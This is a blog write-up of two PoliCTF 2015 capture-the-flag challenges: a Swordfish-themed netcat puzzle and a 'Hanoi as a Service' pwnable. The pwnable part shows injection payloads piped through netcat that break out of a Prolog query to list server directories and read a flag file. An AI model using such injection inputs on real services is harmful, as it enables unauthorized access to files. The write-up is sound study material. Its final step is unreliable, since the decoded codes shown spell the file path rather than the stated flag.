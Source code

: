 ```yaml
---
layout: post
title: "Poli CTF 2015"
published: false
---
```


#Poli CTF 2015

PoliCTF is a 48 hour, jeopardy style capture-the-flag competition that will be held both online and live for a restricted number of participants attending the DIMVA 2015 conference held in Milan (Italy). This is the first time I have competed in this CTF, and i'd like to say thank you to the team who put these challenges together!

This is the first CTF I have done in quite a while, so suffice to say I am currently out of practice and overthought many of the challenges. However I still had heaps of fun, and i'm looking forward to practicing for the next CTF!

http://polictf.it/

##Challenge Writeups


###GrabBag

####Hard Interview - 50 Points

This challenge was a great lesson in learning about not overthinking easy challenges!

So we start off with this:
>**interview.polictf.it:80**

Visit the address through your browser, and you'll receive a page that only displays the following text:
```
         ____                                     __                              __      
        /\  _`\                                  /\ \__                          /\ \__   
        \ \ \/\ \     __   _____      __     _ __\ \ ,_\   ___ ___      __    ___\ \ ,_\  
         \ \ \ \ \  /'__`\/\ '__`\  /'__`\  /\`'__\ \ \/ /' __` __`\  /'__`\/' _ `\ \ \/  
          \ \ \_\ \/\  __/\ \ \L\ \/\ \L\.\_\ \ \/ \ \ \_/\ \/\ \/\ \/\  __//\ \/\ \ \ \_ 
           \ \____/\ \____\\ \ ,__/\ \__/.\_\\ \_\  \ \__\ \_\ \_\ \_\ \____\ \_\ \_\ \__\
            \/___/  \/____/ \ \ \/  \/__/\/_/ \/_/   \/__/\/_/\/_/\/_/\/____/\/_/\/_/\/__/
                             \ \_\                                                        
                              \/_/                                                        
                     ___      ____               ___                                
                   /'___\    /\  _`\           /'___\                               
              ___ /\ \__/    \ \ \/\ \     __ /\ \__/   __    ___     ____     __   
             / __`\ \ ,__\    \ \ \ \ \  /'__`\ \ ,__\/'__`\/' _ `\  /',__\  /'__`\ 
            /\ \L\ \ \ \_/     \ \ \_\ \/\  __/\ \ \_/\  __//\ \/\ \/\__, `\/\  __/ 
            \ \____/\ \_\       \ \____/\ \____\\ \_\\ \____\ \_\ \_\/\____/\ \____\
             \/___/  \/_/        \/___/  \/____/ \/_/ \/____/\/_/\/_/\/___/  \/____/
                                                                            
                                                                            
____ ____ ____ ___ ____ _ ____ ___ ____ ___     ____ ____ ____ ____ ____ ____    ____ _  _ _    _   _ 
|__/ |___ [__   |  |__/ | |     |  |___ |  \    |__| |    |    |___ [__  [__     |  | |\ | |     \_/  
|  \ |___ ___]  |  |  \ | |___  |  |___ |__/    |  | |___ |___ |___ ___] ___]    |__| | \| |___   |   


fish@sword:~$  GET: command not found
fish@sword:~$  Host:: command not found
fish@sword:~$  Connection:: command not found
fish@sword:~$  Accept:: command not found
fish@sword:~$  User-Agent:: command not found
fish@sword:~$  Accept-Encoding:: command not found
fish@sword:~$  Accept-Language:: command not found
fish@sword:~$  
: command not found
fish@sword:~$ 
```
The browser's HTTP request being entered as commands is a fairly good indication that we need something more appropriate to access this system. [Netcat](https://en.wikipedia.org/wiki/Netcat) would handle connecting to port 80 nicely.
```
nc interview.polictf.it 80
```
Attempting any of the traditional bash commands will result in "command not found". 

```
fish@sword:~$ ls
 ls: command not found
```
After a slew of failed commands, the solution was much more simple - typing in "help" was surprisingly helpful!
```
fish@sword:~$ help
 A very hard interview: Codename Blow...Fish
Maybe you can help me with something...
DOD d-base, 128 bit encryption...What do you think?
Maybe slide in a Trojan hose hiding a worm...
I have been told that best "crackers" in the world can do it in 60 minutes, unfortunately I need someone who can do it in 60 seconds... naturally with the right incentives ;)
If you know what I mean, tell me how a real cracker accesses to a remote super protected server...

Possible commands:
hacker: Write code as a real hacker
help: Give information about the program
hint: Gives a little hint
exit: Loser...bye bye
ssh: A tiny ssh command
date: A very useful and innovative feature
```
The hacker command will literally print out "hacker" code to the screen [as if it was being typed by you](http://hackertyper.net/)! And the date command simply prints a date. Hint provides you with:
```
useage:  ssh username@address
address: a not so easily reachable IP address
Very simple...isn't it?
```
If you haven't picked it up already, this challenge is based around the interview scene in the movie [Swordfish](https://en.wikipedia.org/wiki/Swordfish_(film)) . I brought up a video of the [interview scene](https://www.youtube.com/watch?v=zfy5dFhw3ik) on YouTube and watched it. After alot of pausing and squinting, I realised that there is an IP address that looks fairly out of place, and I entered the typical username I would expect we were trying to access...
```
fish@sword:~$ ssh admin@312.5.125.233
 flag{H4ll3_B3rry's_t0pl3ss_sc3n3_w4s_4ls0_n0t4bl3}
```
And Success!
---

###Pwnable

####Hanoi as a Service - 50 Points

I really enjoyed this challenge as I learned alot from it. It was also the first time that I have encounted the programming language [Prolog](https://en.wikipedia.org/wiki/Prolog) as well techniques on how to approach these types of challenges.

>HANOI AS A SERVICE
>50 Points
>Check out our shiny new HaaS platform!
>nc haas.polictf.it 80

 When you netcat into the service you recieve the following message:
 
``` 
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
```
Lets enter the number 3.
```
3
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
```
This would be a nifty service if we were looking to play [Tower of Hanoi](https://en.wikipedia.org/wiki/Tower_of_Hanoi), however we want to see how we can attack this service to find the flag.

Lets try some unexpected input, I entered the letter "w", which returned:
```
ERROR: Prolog initialisation failed:
ERROR: </2 Arithmetic: 'w/0' is not a function
```
Interesting! [Prolog](https://en.wikipedia.org/wiki/Prolog) is a general purpose logic programming language, a quick google search reveals a [handy list of commands](http://www.swi-prolog.org/pldoc/man?section=builtin) to try. Some of the unsuccessful approaches I tried were:
- Attempting to overflow the process by providing it with large input, however the code we dumped later showed that it had been coded to avoid processing input larger than 15 characters long.
- Certain commands, such as 'shell()' were rejected with a one of three random messages, such as "Nope.", "What are you trying to do!?!" and "Sorry thats not implemented!".

After some failed commands revealed the directory structure, this allowed me to focus my efforts on reaching the folders above, as it would likely be where the flag was hidden.
```
root@kali:~# nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
2), debug 2 ?- trace
ERROR: Prolog initialisation failed:
ERROR: Syntax error: Operator expected
ERROR: hanoi(2), debug 
ERROR: ** here **
ERROR: 2 ?- trace) . 
Exception in thread Thread-1 (most likely raised during interpreter shutdown):
Traceback (most recent call last):
  File "/usr/lib/python2.7/threading.py", line 810, in __bootstrap_inner
  File "/usr/lib/python2.7/threading.py", line 763, in run
  File "/home/ctf/haas/haas-proxy.py", line 36, in listen
  File "/usr/lib/python2.7/subprocess.py", line 796, in communicate
  File "/usr/lib/python2.7/subprocess.py", line 1376, in wait
  File "/usr/lib/python2.7/subprocess.py", line 476, in _eintr_retry_call
<type 'exceptions.OSError'>: [Errno 10] No child processes
```
The 'working_directory' command seemed like the best command to try here...
```
echo '2), working_directory(CWD, "/home/ctf/haas/"), ls %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
haas			haas-proxy.py			jhknsjdfhef_flag_here
```
This is fantastic - the flag is sitting right there in that folder! After much reading and trial and error, the final command was crafted:
```
echo '2), open("/home/ctf/haas/jhknsjdfhef_flag_here", read, Stream), read_line_to_codes(Stream,Codes), write(Codes) %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
ERROR: Prolog initialisation failed:
ERROR: open/3: source_sink '[47,104,111,109,101,47,99,116,102,47,104,97,97,115,47,106,104,107,110,115,106,100,114,104,101,102,95,102,108,97,103,95,104,101,114,101]' does not exist (No such file or directory)
```
After converting the flag from decimal to ascii the flag was revealed!
```
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```



---
